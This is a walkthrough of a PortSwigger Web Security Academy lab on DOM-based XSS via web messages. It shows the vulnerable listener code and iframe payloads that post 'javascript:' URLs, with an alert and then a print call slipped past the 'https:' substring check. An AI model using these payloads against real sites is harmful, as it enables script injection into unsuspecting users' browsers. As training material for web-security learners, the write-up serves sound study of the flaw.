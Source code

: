 
# 19 - DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. 

To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

- https://portswigger.net/web-security/cross-site-scripting/dom-based

- https://stackoverflow.com/questions/24078332/is-it-secure-to-use-window-location-href-directly-without-validation

---------------------------------------------

Generated link: https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/


Vulnerable code:



![img](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

If the payload contains “http:” or “https:”, it will redirect to that page.


Our payload in the exploit server:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('https://as.com','*')" style="width:100%;height:100%">
```

When we click “View”, it redirects to as.com:



![Pobre Luis Enrique](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/2.png)

We can execute Javascript code with javascript:alert(1). As there are already nested quotes and double quotes we can use the character “`” to create an alert message with the previous url, so the payload wil still have “https:”:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/3.png)

If we change the payload to print the page:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/4.png)